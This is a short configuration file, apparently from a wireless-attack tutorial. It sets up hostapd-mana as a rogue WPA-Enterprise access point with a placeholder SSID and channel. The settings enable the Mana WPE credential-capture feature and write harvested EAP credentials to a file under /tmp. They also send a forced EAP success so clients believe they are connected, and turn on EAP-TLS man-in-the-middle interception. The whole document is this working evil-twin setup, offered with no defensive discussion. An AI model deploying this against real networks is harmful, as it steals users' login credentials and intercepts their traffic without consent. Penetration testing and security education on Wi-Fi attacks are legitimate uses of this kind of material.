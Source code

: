 ```
# Fill file above with these contents
# SSID of the AP
ssid=<SSID>

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=<CHANNEL>
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1


```
